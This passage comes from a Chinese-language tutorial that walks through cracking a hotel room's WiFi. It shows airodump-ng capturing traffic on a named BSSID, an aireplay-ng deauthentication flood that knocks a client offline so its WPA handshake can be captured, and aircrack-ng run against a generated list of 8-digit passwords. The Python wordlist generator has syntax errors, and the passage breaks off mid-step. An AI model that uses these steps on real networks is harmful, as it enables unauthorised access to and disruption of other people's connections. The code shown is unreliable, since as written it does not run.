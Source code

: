     在酒店，这些都是酒店周围的WiFi
    
    room类型是酒店电视机投屏WiFi，目前已知酒店WiFi密码为8位数字。
    
5.  对目标进行抓包
    
    对room-1028-440进行抓包
    
    bssid 7C:25:DA:80:BC:0B
    
    channel 6
    
    ```
    airodump-ng --bssid 7C:25:DA:80:BC:0B -c 6 -w capture wlan0mon  
    
    ```
    
    ![图片](https://mmbiz.qpic.cn/mmbiz_png/RbCJNSG1XgvdWZR6MdG18BmWtMbqnYF3cH2ulUrRTK97iaGQJ1IUoQdbTO0eQF4TfUv7TG2OzzlGvhmA0qWd09Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)Untitled
    
    STATION 我的手机MAC地址
    
6.  迫使STATION目标下线
    
    对room-1028-440进行泛洪攻击
    
    ```
    aireplay-ng -0 0 -a 7C:25:DA:80:BC:0B -c A2:D2:4A:8D:9E:E4 wlan0mon  
    
    ```
    
    ![图片](https://mmbiz.qpic.cn/mmbiz_png/RbCJNSG1XgvdWZR6MdG18BmWtMbqnYF34pn13hnuH3FpvbI7qnEQtYMOmIcvdNOicxaveVhw5QCxTtXCMpiaae0Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)Untitled
    
    对目标进行攻击，发送几次之后，目标就会强制下线
    
    等待目标再次主动连接目标WiFi，即可捕获四次握手包
    
    ![图片](https://mmbiz.qpic.cn/mmbiz_png/RbCJNSG1XgvdWZR6MdG18BmWtMbqnYF31GJ3nc4vUeCAwwYibzIml2qTKruxFyFQVWn6fbibicfsTia9ArlWTlOH1w/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)Untitled
    
    停止攻击时，Frames 不会再滚动，说明目标下线，当Frames再次变动时，说明目标WiFi被客户端连接，已经捕获到数据包。
    
7.  查看是否抓到握手包
    
    ![图片](https://mmbiz.qpic.cn/mmbiz_png/RbCJNSG1XgvdWZR6MdG18BmWtMbqnYF3zicXVJkE5FXBt9BE3sjp86iaQaWicpzgicSCn4NO3dswDuBE4EHtYbpFBA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)Untitled
    
8.  破解密码
    
    ```
    aircrack-ng -p 4 -w password.txt capture.cap  
    
    ```
    
    已知密码8位数，生成8位数密码。
    
    ```
    with open("password.txt", "w+", encoding="utf-8") as f:  
     for i range(99999999):  
      f.write("{i:08}\n")  
    
    ```
    
    打印
    